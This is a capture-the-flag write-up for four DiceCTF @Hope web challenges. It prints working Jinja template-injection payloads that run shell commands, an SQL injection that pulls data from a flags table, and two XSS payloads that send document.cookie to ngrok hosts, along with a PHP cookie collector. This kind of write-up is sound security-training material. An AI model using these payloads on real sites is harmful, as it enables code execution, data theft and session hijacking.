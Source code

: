 # DiceCTF @Hope writeup

Mostly solved the web challenges with Task_Hashed

---------------------------------------------------------------------------------------------------

## Reverser

the website is a text reverser and from the source code we can tell its an SSTI so we just have to put a regular SSTI payload but just reversed

regular payload: 
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{config.__class__.__init__.__globals__['os'].popen('cat flag-ccba9605-afeb-49a6-8aac-d56bac20705b.txt').read()}}
```
supplied reversed payload:

```
}}  )(daer.)'sl'(nepop.]'so'[__slabolg__.__tini__.__ssalc__.gifnoc {{
    
}})(daer.)'txt.b50702cab65d-caa8-6a94-befa-5069abcc-galf tac'(nepop.]'so'[__slabolg__.__tini__.__ssalc__.gifnoc{{
```


---------------------------------------------------------------------------------------------------

## Pastebin 

the important part of this challenge is :

```python 
    if (paste.search(/<.*>/) !== -1) {
        return res.redirect('/flash?message=Illegal characters in paste!');
        }
```

My solution : 

```html
<img src=x onerror=javascript:document.location='http://37b0-41-225-85-6.ngrok.io/ok.php?c='+document.cookie;
```

PS : the reason this works is because the browser will automatically try to fill in with the > tag 

with ok.php :
```php
<?php 
    $cookies = $_GET["c"];
?>
``` 
---------------------------------------------------------------------------------------------------

## oeps

this challenge requires to put a palindrome string to add them to the pending table

notice there's two ways we can control user input. either search for approved sentences or pass our own but it has to be a palindrome

since the search is blocking special chars we can try with the pending sentences input

so we can try some sql injections

this is what the query looked like 

```python 
connection.execute('''
        insert into pending (user, sentence) values ('%s', '%s');
    ''' % (
        token,
        submission
))
```


payload: ```')--```
payload supplied : ```')---)'```

and we can see we get a blank input meaning our payload worked! and we know the flag is in the flags table so we can use the ```'%'||(query)||'%'``` to get an element from another table

payload : ```%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'% ``` 

the final query looks like this 

```sql
insert into pending (user, sentence) values ('1234', '%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'%');
```

```
flag : hope{ecid_gnivlovni_semordnilap_fo_kniht_ton_dluoc}
```

------------------------------------------------------------------------------------------------------------------------------------

## mk

Abusing MathJax renderer for an xss by supplying the source to the mathjax file

payload :

```javascript
<script src="https://mk.mc.ax/MathJax/MathJax.js">document.location='http://02f6-41-225-148-43.ngrok.io/ok.php?c='+document.cookie;</script>
```


with ok.php :
```php
<?php 
    $cookies = $_GET["c"];
?>
``` 
